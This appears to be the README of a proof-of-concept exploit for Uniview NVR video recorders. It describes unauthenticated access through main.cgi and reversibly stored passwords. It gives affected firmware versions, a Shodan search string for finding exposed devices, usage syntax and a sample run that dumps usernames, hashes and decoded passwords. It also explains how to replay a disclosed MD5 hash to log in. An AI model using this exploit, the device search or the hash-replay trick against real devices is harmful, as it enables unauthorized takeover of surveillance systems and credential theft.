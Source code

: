 # Uniview NVR remote passwords disclosure

The Uniview NVR web application does not enforce authorizations on the main.cgi file when requesting json data.
It means that you can do anything without authentication, however you must know the request structure.
In addition, the users' passwords are both hashed and also stored in a reversible way
The POC below remotely downloads the device's configuration file, extracts the credentials
and decodes the reversible password strings using my crafted map

It is worth mention that when you login, the javascript hashes the password with MD5 and pass the request.
If the script does retrieve the hash and not the password, you can intercept the request and replace the generated
MD5 with the one disclosed using this script


Tested on the following models:
  NVR304-16E - Software Version B3118P26C00510
  NVR301-08-P8 - Software Version B3218P26C00512
						version B3220P11
						version B3219P22

 Other versions may also be affected

Shodan dork for similar devices: "Text.VideoManageSystem"

Usage: python nvr-pwd-disc.py http://Host_or_IP:PORT

Run example:

 root@k4li:~# python nvr-pwd-disc.py http://192.168.1.5

 Uniview NVR remote passwords disclosure!
 Author: B1t0n

 [+] Getting model name and software version...
 Model: NVR301-08-P8
 Software Version: B3218P26C00512

 [+] Getting configuration file...
 [+] Number of users found: 4

 [+] Extracting users' hashes and decoding reversible strings:

 User 	|	 Hash 	|	 Password
 _________________________________________________
 admin 	|	3b9c687b1f4b9d87ed0fdd6a***** 	|	<TRIMMED>
 default 	|	 	|	||||||||||||||||||||
 HAUser 	|	288b836a37578141fea6527b5e***** 	|	123HAUser*****
 test 	|	51b2454c681f3205f63b83720***** 	|	AA123pqrst*****

  *Note that the users 'default' and 'HAUser' are default and sometimes inaccessible remotely
